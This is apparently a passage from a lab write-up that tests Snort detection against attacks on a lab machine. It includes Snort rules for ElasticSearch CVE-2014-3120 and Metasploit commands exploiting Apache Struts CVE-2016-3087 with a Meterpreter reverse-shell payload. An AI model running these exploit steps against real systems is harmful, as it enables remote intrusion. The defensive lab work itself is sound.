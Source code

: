 ```shell
tkasu$ grep '2014-3120' ./*

./server-other.rules:# alert tcp $EXTERNAL_NET any -> $HOME_NET 9200 (msg:"SERVER-OTHER ElasticSearch script remote code execution attempt"; ...

./server-other.rules:# alert tcp $EXTERNAL_NET any -> $HOME_NET 9200 (msg:"SERVER-OTHER ElasticSearch information disclosure attempt"; ...

```
As we can see, server-other.rules has 2 rules related to our vulnerability, but they are commented out (# in the beginning of the line) in default! Let's uncomment the rows and try again:

```shell
03/19-19:24:58.432413  [**] [1:33830:2] SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain] [Priority: 1]
```

Now it works!

### Apache Struts

When investigating this vulnerability, I assume that we know that there is public web application running at http://172.28.128.3:8282/struts2-rest-showcase/orders/. Also, I assume that is public knowledge that the page is done with [Apache Struts](https://struts.apache.org/) or it can be identified from the page.

#### Attack

Against Struts, we can try metasploit's exploit/multi/http/struts_dmi_rest_exec / [CVE-2016-3087](http://www.cvedetails.com/cve/cve-2016-3087) to gain remote code access rights.

```shell
> use exploit/multi/http/struts_dmi_rest_exec
> set payload windows/meterpreter/reverse_http

> set RHOST 172.28.128.3
> set RPORT 8282
> set TAGETURI /struts2-rest-showcase/orders/
> run

meterpreter >
```

And again we have a command line access.


#### Detection

Again, the default configuration and rules of snort did not detect the attack. However, when I investigate the rules it seems that we have enable all the needed rules but still no detection?

Let's investigate snort.conf. It seems that I have missed the configuration in the used application ports:

```shell
portvar HTTP_PORTS [...,8280,8300,...]
```
So I added 8282, but still no detection. 
